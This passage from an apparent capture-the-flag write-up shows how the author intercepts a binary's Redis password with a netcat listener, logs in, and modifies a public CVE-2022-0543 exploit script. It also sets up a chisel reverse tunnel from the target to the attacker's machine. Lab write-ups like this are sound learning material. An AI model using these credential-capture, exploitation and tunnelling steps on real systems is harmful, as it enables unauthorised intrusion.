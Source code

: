 
After some time using `strings`, `Ghidra` and some `gdb` but I couldn't get to anything useful, just a lot of gibberish and things I might not understand, so I decided to just run the binary on my kali machine and see where it goes:

```bash
└─$ ./redis_connector_dev 
[+] Logging to redis instance using password...

INFO command result:
 dial tcp [::1]:6379: connect: connection refused
```

So it's trying to read port `6379` on my local host, so I started a `Netcat` listener to see what it's saying:

```bash
└─$ sudo nc -lvnp 6379
listening on [any] 6379 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 52114
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```

And I got the auth password for `Redis`! I went ahead and tried this password `F2WHqJUz2WEz=Gqq` on `redis-cli` and it worked:

```bash
dan_smith@shared:~$ redis-cli
127.0.0.1:6379> auth F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> 
```

I tried to poke around but didn't get anything useful, so I started googling until I found [CVE-2022-0543
](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0543) and looking further into it I found a python [script](https://github.com/aodsec/CVE-2022-0543) that crafts the payload and automates the process. I downloaded it and modfied the script to work with authenticated connection as following:

```python
	# On line 20:
	r  =  redis.Redis(host = ip,port = port, password = "F2WHqJUz2WEz=Gqq")
```

And since port `6379` isn't open on the local network, I used `chisel` to port forward:

```shell
		# On my kali machine:
└─$ sudo chisel server -p 1337 --reverse

		# On the target machine:
dan_smith@shared:~$ ./chisel client 10.10.16.5:1337 R:6379:127.0.0.1:6379
```
